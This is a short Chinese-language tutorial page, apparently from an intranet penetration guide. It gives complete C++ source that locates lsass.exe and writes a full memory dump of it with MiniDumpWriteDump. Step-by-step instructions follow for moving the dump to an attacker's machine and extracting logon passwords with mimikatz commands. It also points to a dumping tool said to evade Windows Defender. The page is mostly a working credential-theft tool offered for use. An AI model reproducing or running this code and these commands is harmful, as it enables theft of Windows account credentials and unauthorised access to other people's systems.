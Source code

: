 # 利用 windows api dump 进程

> 原文：[http://book.iwonder.run/内网渗透/内网渗透/利用 windows api dump 进程/1.html](http://book.iwonder.run/内网渗透/内网渗透/利用 windows api dump 进程/1.html)

## c++源代码

```
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {
    DWORD lsassPID = 0;
    HANDLE lsassHandle = NULL; 
    HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32);
    LPCWSTR processName = L"";

    if (Process32First(snapshot, &processEntry)) {
        while (_wcsicmp(processName, L"lsass.exe") != 0) {
            Process32Next(snapshot, &processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        }
        wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
    }

    lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
    BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);

    if (isDumped) {
        cout << "[+] lsass dumped successfully!" << endl;
    }

    return 0;
} 
```

[https://github.com/ianxtianxt/windows-api-dump/](https://github.com/ianxtianxt/windows-api-dump/)

## 执行演示

### 执行 CreateMiniDump.exe（上面的编译文件）或编译自己的二进制文件

### Lsass.dmp 被转储到工作目录

### 让 lsass.dmp 离线到你的攻击机器上

### 打开 mimikatz 并加载到转储文件中

### 储存密码

.\createminidump.exe .\mimikatz.exe sekurlsa::minidump c:\temp\lsass.dmp sekurlsa::logonpasswords

![image](img/9396a73b5ba231a70cb9e9ca5dc7adf2.png)

![image](img/50c8546c16a62ecaf945e6bbefbd9ee4.png)

可以在 mimikatz 中离线读取

![image](img/85b6a1b30e89cd6c34f1f8f4992dda5b.png)

这里有一个 pdocdump 可以执行相同的操作，并且不会被 windows defender 标记。

